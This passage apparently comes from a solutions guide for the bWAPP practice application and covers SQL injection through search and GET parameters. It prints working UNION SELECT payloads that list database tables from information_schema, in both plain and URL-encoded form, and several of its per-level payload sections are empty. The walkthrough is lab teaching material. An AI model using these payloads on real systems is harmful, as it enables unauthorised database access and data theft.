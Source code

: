 ```
    Payload: title=man%' UNION ALL SELECT NULL,CONCAT(0x7171707671,0x586d66766176616a7345674b664f704764757a6e487558414c71786250466d566245655a7457596a,0x7176787a71),NULL,NULL,NULL,NULL,NULL-- sXHO&action=search

```

### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 

## 💀  SQL Injection (GET/SELECT) 💀
url: /sqli_2.php
another basic type of SQL inject with GET request. 

show specific field name. and exploere more by changing the limit and offset values.
```
movie=1 UNION ALL SELECT table_schema, table_name, null, null, null, null, null FROM information_schema.tables LIMIT 1 OFFSET 1;--
```
or

```
sqli_2.php?movie=1%20UNION%20ALL%20SELECT%20table_schema%2ctable_name%2c%20null%2c%20null%2c%20null%2c%20null%2c%20null%20from%20information_schema.tables%20LIMIT%201%20OFFSET%204%3b--
```

![](https://github.com/skiptomyliu/solutions-bwapp/blob/master/screenshots/sqli_2_1.png)
![](https://github.com/skiptomyliu/solutions-bwapp/blob/master/screenshots/sqli_2_2.png)


### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high
